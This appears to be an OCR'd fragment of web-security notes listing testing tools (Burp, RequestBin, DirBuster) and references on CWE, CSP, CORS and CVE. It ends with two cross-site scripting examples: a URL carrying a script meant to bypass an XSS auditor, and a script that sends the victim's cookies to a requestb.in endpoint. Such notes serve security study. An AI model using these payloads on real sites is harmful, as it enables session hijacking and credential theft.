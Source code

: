 Burp
RequestBin
DirBuster
https://lists.owasp.org/mailman/listinfo
https://cwe.mitre.org/data/definitions/442.html
https://content-security-policy.com
https://developer.mozilla.org/en-US/docs/Web/HTTP/Access_control_CORS
https://cve.mitre.org


https://uw2017.p4.team/bypassing-xss-auditor?debug=1&adb=<script>alert(%27Hello%27);"\&abd2="</script>

<script>document.createElement("img").src="http://requestb.in/158azuq1" + document.cookie</script>
